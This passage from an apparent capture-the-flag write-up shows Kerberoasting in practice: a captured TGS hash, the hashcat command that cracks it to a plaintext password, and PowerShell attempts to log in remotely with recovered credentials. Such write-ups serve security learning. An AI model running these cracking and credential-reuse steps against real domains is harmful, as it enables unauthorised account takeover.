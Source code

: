 ```
                       808DA782BBBF6BEDDEEC84470AF914A35E581B735A288354A4CE9DA724C34C1AA1523D2730B6ECDF93FEBCE76309B969
                       D9CDD71CA2762E932939AB56210340E95E4F8A6FE9B59F4C0FACA946FF96C0D46F00C6703A4531B768AB5DCAC09EAF52
                       6CFE58FD1DE7C2E69E04C2124CC7104E71FADAC495027A5C7F72347EBA61FE119A5C5ACE54E1EE6E10BD4204775E83AD
                       668767D59366F3D293E8747A9C7AD60345B74226FCE4FA3A65E1E04861BE3B2734361D4C5B5FA7632F44758110E4C912
                       2F5B2F6144121EA3E6EE2DAD9C3350889B0D26CCEB506A136ECEC225ED18FC294DF62BDB7D6B4A14F448A6258D3C702D
                       98371B1873B8738A4F4AAD87C5C3FCF65B7AD3B1E5AB81BF40DEBC05605130CDC82F35B6936A543746EB36C42A98893F
                       659434436DC391B8CFFB3376EF323B5ABCA66345297221CC5038C0B6905185A9F1A3CED3537BBA4F3ECE5EEE6A363EFF
                       FE9D532E6DB81DB29CCB4206E877E36B2AA5DB0DB1F0E430808C6E844277D51BF65D393123692E6381E3DB2219D782FA
                       FAF49511A4692E3CD3650DD51D987522D6F06281E3A1FE84A7D1DD9028F08D1C66581BED8EA82E6FB0D67FAB73CC3FBB
                       5FB2339A136FF7CE9D0E6E17D0FE50E84FC57D1A2B69BABEA4EA77EA2E0D036F6CE6B3BD3929E6EE50679C8CECEDA6FD
                       1C46A345D9BBCC5A9163B643C0D0A66AB2D9A936CACEA7E14B659DF2F414833F8AB03404A947A49431C0E458D136D758
                       EF79709F8BB580D85CC3B8F0D9990DE9EC193B770150A3ED3470019B7D5FFC0F9515F6AFC73C8D435166BE05D5F72506
                       2E30367B707C9D7BC4D5D66CA8F82654EB5DD55AEE2FB15EF1D4BDFF0F01ED4040C2E1BDBBA1E41560EB156EF5C94F50
                       7121CA4D0E76A1A6668F43A32933087F11273FCA0ABC89A53DCC3D69B8300AEBB30318090A6C7EBA72C91F8116EE8929
                       0CB267D5
```

```
hashcat64 -a 0 -m 13100 -r rules\best64.rule tgshash.txt Passwords\*
```

Password found: `ZQ!5t4r`

### Bloodhound

Unfortunately we can't establish an interactive session with our two users:

```
PS C:\Users\snowscan> $SecPassword = ConvertTo-SecureString 'ZQ!5t4r' -AsPlainText -Force
PS C:\Users\snowscan> $Credential = New-Object System.Management.Automation.PSCredential('p00_adm', $SecPassword)
PS C:\Users\snowscan> enter-pssession -computername [dead:babe::1001] -credential $Credential
enter-pssession : Connecting to remote server [dead:babe::1001] failed with the following error message : Access is denied. For more information, see the
about_Remote_Troubleshooting Help topic.
At line:1 char:1
+ enter-pssession -computername [dead:babe::1001] -credential $Credenti ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: ([dead:babe::1001]:String) [Enter-PSSession], PSRemotingTransportException
    + FullyQualifiedErrorId : CreateRemoteRunspaceFailed

PS C:\Users\snowscan> $SecPassword = ConvertTo-SecureString 'Development1!' -AsPlainText -Force
PS C:\Users\snowscan> $Credential = New-Object System.Management.Automation.PSCredential('p00_dev', $SecPassword)
PS C:\Users\snowscan> enter-pssession -computername [dead:babe::1001] -credential $Credential
enter-pssession : Connecting to remote server [dead:babe::1001] failed with the following error message : Access is denied. For more information, see the
about_Remote_Troubleshooting Help topic.
At line:1 char:1
+ enter-pssession -computername [dead:babe::1001] -credential $Credenti ...
```